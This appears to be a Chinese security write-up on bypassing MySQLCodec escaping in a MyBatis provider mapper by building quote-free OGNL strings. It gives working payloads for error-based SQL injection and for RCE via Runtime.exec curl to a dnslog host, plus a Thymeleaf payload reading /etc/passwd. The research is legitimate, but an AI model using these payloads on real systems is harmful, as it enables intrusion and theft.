 0x00 背景
=======

 Mybatis是java生态中比较常见的持久层框架。在MyBatis3开始提供了使用Provider注解指定某个工具类的方法来动态编写SQL。常见的注解有：

- @SelectProvider
- @InsertProvider
- @UpdateProvider
- @DeleteProvider

 跟所有ORM框架一样，若使用不当，会存在SQL注入风险。（只要是通过SQL拼接，都会存在风险。）

 在实际业务中发现一处Provider注入的case，**当前漏洞已经修复完毕** 。提取关键的的漏洞代码做下复盘。

 查看mapper代码，可以看到name参数直接通过SQL拼接的方式进行查询，如果用户可控的话，会存在SQL注入风险：

```Java
@SelectProvider(type = UserProvider.class, method = "getUserByName")
List<User> getUserByName(String name);

class UserProvider {
    public String getUserByName(String name) {
        String s = new SQL() {
            {
                SELECT("*");
                FROM("users");
                WHERE("username like'%"+name+"%'");
            }
        }.toString();
        return s;
    }
}
```

 回溯对应的参数传递过程，发现name参数经过了如下函数的处理：

```Java
MySQLCodec.v().encode(sql)
```

 跟进具体的代码，核心处理代码如下，该方法是根据ESAPI魔改的方法，会对参数进行编码转译处理，规避SQL注入的风险：

```Java
private String encodeCharacterMySQL( Character c ) {
      char ch = c.charValue();
      if ( ch == 0x00 ) return "\\0";
      if ( ch == 0x08 ) return "\\b";
      if ( ch == 0x09 ) return "\\t";
      if ( ch == 0x0a ) return "\\n";
      if ( ch == 0x0d ) return "\\r";
      if ( ch == 0x1a ) return "\\Z";
      if ( ch == 0x22 ) return "\\\"";
      if ( ch == 0x27 ) return "\\'";
      if ( ch == 0x5c ) return "\\\\";
      return ""+c;
   }
```

 存在注入点的地方为like模糊查询，经过encode()处理后单引号被转义，没办法闭合SQL上下文，无法利用。那么有没有办法可以绕过对应的安全过滤处理成功利用呢？下面是具体的思考过程：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-5a6704ac279268758d08367865e971d3d4e28e2e.png)

0x01 绕过过程
=========

 实际上MyBatis 默认是支持OGNL 表达式的，尤其是在动态SQL中，通过OGNL 表达式可以灵活的组装 SQL 语句，从而完成更多的功能。

 而Provider注解是可以自定义SQL的过程。可以简单的类比为动态生成了一个xml mapper配置。如果定义的SQL中包含${}，拼接成SQL后会调用DynamicSqlSource通过OgnlCache进行相应的解析。也就是说**上述场景是支持OGNL表达式解析的** 。（具体可见之前的文章，传送门[：https://forum.butian.net/share/1749）](https://forum.butian.net/share/1749)

 但是有个问题是，即使支持OGNL的解析，Java的函数调用传入参数也需要用到单双引号，`MySQLCodec.` *`v`* `().encode()`方法同样的做了相应的转义处理。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9d1188976a0a371a5250edf59af0853d73e46dc3.png)

 比起之前只能围绕单双引号困扰，能执行OGNL的话就比较灵活了，可以看看有什么 **单双引号的替代方案** 。

 先看看有什么字符是必要的，`{}`是必要的，是mybaits进入OGNL解析的入口，其次OGNL表达式的格式如下，那么`@`也是必要的。

```text
@[类全名（包括包路径）]@[方法名 |  值名]
```

 如果能解决单双引号的转义问题，在SQL注入的基础上，也能进一步调用OGNL对应执行命令的方法，达到RCE的效果。

0x02 Unicode编码
==============

 比较容易想到的思路就是编码，能不能通过编码的方式进行混淆，骗过转义机制。

 ognl表达式支持\\u这种编码形式。例如如下两个表达式其实都是等价的，返回的结果都是字符串`1`：

```text
\u0040\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0040\u0076\u0061\u006c\u0075\u0065\u004f\u0066\u0028\u0031\u0029

@java.lang.String@valueOf(1)
```

 可以通过Unicode编码单双引号来绕过对应的转义过程，但是`\`同样的会经过转义处理，导致对应的表达式无法执行。

```java
if ( ch == 0x5c ) return "\\\\";
```

0x03 ASCII码
===========

 除此之外，ASCII转换字符串也是一个不错的思路。  
 在Java中，char与int两者是支持相加减的。在运算时，int取本身数值，char取对应的ASCII码值。得到的结果是ASCII码增加/减小int对应的数值大小。

 如果结果赋值给char类型的变量即是该ASCII码对应的字符，如果赋值给int类型的变量即是该ASCII码的大小。

 例如下面的例子，d的ascii码为100:

```Java
public static void main(String[] args){
   char str = 'd'-3;
   System.out.println(str);//100-3=97，赋值给了char类型，所以输出ASCII码97对应的字符a

   int i = 'd'-3;
   System.out.println(i);//赋值给了int类型，所以输出对应的数字97
}
```

 那么可以考虑首先获取到一个char类型的变量，然后通过加法运算后，再进而转换为对应ASCII码对应的字符。

 对应的OGNL表达式，执行后获取的内容为`a`:

```Java
@java.lang.Character@toString(@java.lang.String@valueOf(0).charAt(0)+97)
```

 实际上只需要调用`Character.toString()`即可达到类似的效果了，对应的ognl表达式：

```Java
@java.lang.Character@toString(111)
```

 根据上面的思路，可以通过`Character.toString()`方法得到单个的字符串，那么只需要对这些字符串进行拼接，即可达到想要的内容了，整个过程是不需要使用到单双引号的。接下来验证对应的猜想。

- SQL注入

 根据漏洞代码，输入单引号正常应该是会影响sql上下文导致报错的，但是因为通过MySQLCodec.*v*().encode()转义，单引号会被认为是普通查询的字符串：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e9b6014ce5ef54b2211aafc50c3e358b3cac4ef6.png)

 按照前面的思路，这里通过ognl构造一个单引号进行查询，可以看到成功绕过了转义机制，实际sql查询时影响了上下文，导致报错：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-1e9e280cea0762519b479fbbd63fdf75cd67c314.png)

 同理，这里以报错注入为例，构造sql语句`'and updatexml(1,concat(0x7e,user()),1) or '1'='1`,经过一系列的转换最终得到poc，可以查看成功通过报错注入得到了数据库用户名：

```Java
@java.lang.Character@toString(39)+@java.lang.Character@toString(97)+@java.lang.Character@toString(110)+@java.lang.Character@toString(100)+@java.lang.Character@toString(32)+@java.lang.Character@toString(117)+@java.lang.Character@toString(112)+@java.lang.Character@toString(100)+@java.lang.Character@toString(97)+@java.lang.Character@toString(116)+@java.lang.Character@toString(101)+@java.lang.Character@toString(120)+@java.lang.Character@toString(109)+@java.lang.Character@toString(108)+@java.lang.Character@toString(40)+@java.lang.Character@toString(49)+@java.lang.Character@toString(44)+@java.lang.Character@toString(99)+@java.lang.Character@toString(111)+@java.lang.Character@toString(110)+@java.lang.Character@toString(99)+@java.lang.Character@toString(97)+@java.lang.Character@toString(116)+@java.lang.Character@toString(40)+@java.lang.Character@toString(48)+@java.lang.Character@toString(120)+@java.lang.Character@toString(55)+@java.lang.Character@toString(101)+@java.lang.Character@toString(44)+@java.lang.Character@toString(117)+@java.lang.Character@toString(115)+@java.lang.Character@toString(101)+@java.lang.Character@toString(114)+@java.lang.Character@toString(40)+@java.lang.Character@toString(41)+@java.lang.Character@toString(41)+@java.lang.Character@toString(44)+@java.lang.Character@toString(49)+@java.lang.Character@toString(41)+@java.lang.Character@toString(32)+@java.lang.Character@toString(111)+@java.lang.Character@toString(114)+@java.lang.Character@toString(32)+@java.lang.Character@toString(39)+@java.lang.Character@toString(49)+@java.lang.Character@toString(39)+@java.lang.Character@toString(61)+@java.lang.Character@toString(39)+@java.lang.Character@toString(49)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-12031f2f320aa93dcf51952f0b3472ff0b6c755a.png)

- RCE

 这里结合dnslog进行验证，尝试执行`curl` `28knso.dnslog.cn`命令，经过上述思路，得到的ongl表达式为：

```Java
@java.lang.Runtime@getRuntime().exec(@java.lang.Character@toString(99)+@java.lang.Character@toString(117)+@java.lang.Character@toString(114)+@java.lang.Character@toString(108)+@java.lang.Character@toString(32)+@java.lang.Character@toString(50)+@java.lang.Character@toString(56)+@java.lang.Character@toString(107)+@java.lang.Character@toString(110)+@java.lang.Character@toString(115)+@java.lang.Character@toString(111)+@java.lang.Character@toString(46)+@java.lang.Character@toString(100)+@java.lang.Character@toString(110)+@java.lang.Character@toString(115)+@java.lang.Character@toString(108)+@java.lang.Character@toString(111)+@java.lang.Character@toString(103)+@java.lang.Character@toString(46)+@java.lang.Character@toString(99)+@java.lang.Character@toString(110))
```

 发起reques请求，结合dnslog成功验证：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-dcb503cec5ef588baab958de1f877b36bb0a013e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-44f4ab912e68025940771915c35ef918427f3853.png)

0x04 其他
=======

 能直接通过OGNL执行命令当然最好了，如果有相关限制没办法达到目的的话，单纯的利用SQL注入也是一个不错的选择。

 除了上述的思路，还可以对poc进行更多的变形，假设+号无法使用的话，实际上可以利用concact方法来完成字符串的拼接，对应的ognl如下，最终得到的是字符串ll：

```Java
@java.lang.Character@toString(108).concat(@java.lang.Character@toString(108))
```

 同样的,假设Character不可用，还可以通过字节转换来构造：

```java
new java.lang.String(new byte[]{97})
```

 同样的思路也可以用在Thymeleaf模板注入中，例如执行cat命令：

```Java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```